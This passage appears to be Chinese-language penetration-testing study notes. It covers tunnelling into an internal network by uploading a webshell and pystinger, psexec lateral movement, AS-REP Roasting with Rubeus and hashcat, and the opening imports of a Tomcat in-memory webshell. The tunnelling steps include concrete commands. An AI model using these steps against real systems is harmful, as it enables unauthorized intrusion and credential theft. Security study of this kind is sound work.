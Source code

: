 #### 配置listener通过HTTP代理上线
  1. 使用[goproxy](https://github.com/snail007/goproxy)项目做代理
  2. 上传proxy.exe到web服务器(边缘主机)，在8080端口开启http代理
  3. 用netsh命令将访问内网ip的822端口(必须为未使用的端口，否则会失败)的流量重定向到外网ip的8080端口

#### 使用[pystinger](https://github.com/FunnyWolf/pystinger)搭建socks4代理
  服务端由webshell和stinger_server.exe构成，webshell只负责进行流量转发，大部分建立连接及处理数据的工作由stinger_server.exe实现，本质就是搭建了一个SOCK4代理转发流量
##### 连接步骤
  1. 上传proxy.php到网站目录，正常访问返回UTF-8
  2. 上传stinger_server.exe，执行`start stinger_server.exe 0.0.0.0`
  3. Kali上执行`./stinger_client -w http://xxxxxxxxx:81/proxy.php -l 127.0.0.1 -p 60000`
  4. cs中新建listener，xxxxxxxxx为web服务器内网ip，60020为转发端口
  5. 使用psexec横向移动，选择listener为stinger，成功上线

## 域内攻击方法
#### MS14-068
  详情请看[上一篇文章](https://liu1272.github.io/2024/03/22/%E9%9D%A2%E8%AF%95%E5%A4%8D%E4%B9%A0%E4%B8%89/#MS14-068%E6%94%BB%E5%87%BB)
#### Roasting 攻击离线爆破密码
  AS-REP Roasting是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 `Do not require Kerberos preauthentication(不需要kerberos预身份验证) ` 。而该属性默认是没有勾选上的。
  预身份验证是Kerberos身份验证的第一步，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC会记录密码错误次数，防止在线爆破。
  当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT票据 和 该用户Hash加密的Session Key返回。因此，攻击者就可以对获取到的 用户Hash加密的Session Key进行离线破解，如果破解成功，就能得到该指定用户的密码明文。
  攻击时使用 Rubeus.exe 获取hash，再使用hashcat对获得的Hash进行爆破
#### [委派攻击](https://xz.aliyun.com/t/11555)
  原理比较简单，但是实现较为困难，以后有空再回头来学习。
#### [ntlm relay](https://liu1272.github.io/2024/03/22/%E9%9D%A2%E8%AF%95%E5%A4%8D%E4%B9%A0%E4%B8%89/#NTLM-Relay%E6%94%BB%E5%87%BB)
  同样是上一篇文章的内容。

## Java内存马代码
```Java

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.Context" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext" %>
<%@ page import = "org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import = "org.apache.catalina.core.StandardContext" %>


<!-- tomcat 8/9 -->
<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterMap"
page import = "org.apache.tomcat.util.descriptor.web.FilterDef" -->


<!-- tomcat 7 -->
<%@ page import = "org.apache.catalina.deploy.FilterMap" %>
<%@ page import = "org.apache.catalina.deploy.FilterDef" %>


<%@ page import = "javax.servlet.*" %>
<%@ page import = "java.io.IOException" %>
<%@ page import = "java.lang.reflect.Constructor" %>
<%@ page import = "java.lang.reflect.Field" %>
<%@ page import = "java.util.Map" %>

```
